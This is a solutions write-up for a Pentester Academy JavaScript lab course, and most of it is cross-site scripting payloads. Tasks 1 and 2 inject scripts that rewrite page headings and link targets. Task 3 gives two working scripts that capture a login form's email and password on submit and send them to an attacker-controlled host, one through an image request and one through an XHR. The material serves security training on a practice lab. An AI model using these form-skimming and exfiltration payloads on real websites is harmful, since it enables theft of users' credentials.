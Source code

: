 
### Target

    https://www.pentesteracademy.com/course?id=11

### Prereq

Include this in your `.bashrc`:

    https://stackoverflow.com/questions/296536/how-to-urlencode-data-for-curl-command/10660730#10660730

### Task 1

    https://pentesteracademylab.appspot.com/lab/webapp/jfp/1

**Solution**

```
https://pentesteracademylab.appspot.com/lab/webapp/jfp/1?url=<payload>

Payloads generation:
rawurlencode '<script>document.getElementsByTagName("h2")[2].innerHTML = "Modified you"</script>'
rawurlencode '<script>document.getElementsByTagName("h1")[0].innerHTML = "Found you"</script>'
```

### Task 2

    https://pentesteracademylab.appspot.com/lab/webapp/jfp/2

**Solution**

```
https://pentesteracademylab.appspot.com/lab/webapp/jfp/2?url=<payload>

Payload generation:
rawurlencode '<script>for (i=0;i<document.getElementsByTagName("a").length;++i) { document.getElementsByTagName("a")[i].href = "http://PentesterAcademy.com/topics"; }</script>'

### Task 3

    https://pentesteracademylab.appspot.com/lab/webapp/jfp/3

**Solution**

    https://pentesteracademylab.appspot.com/lab/webapp/jfp/3?email=abc@xyz.com&password=111&url=<payload>

Preparing the payload (adding `<img>` tag):

```
$ cat > JSforPentesters-3.js <<'EOF'
function intercept() {
    new Image().src = "https://attacker-controlled.machine/3?email=" + document.forms[0].elements[0].value + "&password=" + document.forms[0].elements[1].value;
    return false;
}
document.forms[0].onsubmit = intercept;
EOF

$ rawurlencode "<script>$(uglifyjs JSforPentesters-3.js)</script>"
```

Alternative payload (triggering `xhr` request - request will cause CORS abuse in browser but it will be send, response will be blocked but the browser):

```
$ cat > JSforPentesters-3-2.js <<'EOF'
function intercept() {
    var xhr = new XMLHttpRequest();
    xhr.open("GET", "https://attacker-controlled.machine/3?email=" + document.forms[0].elements[0].value + "&password=" + document.forms[0].elements[1].value);
    xhr.send();
    return false;
}
document.forms[0].onsubmit = intercept;
EOF

rawurlencode "<script>$(uglifyjs JSforPentesters-3-2.js)</script>"
```
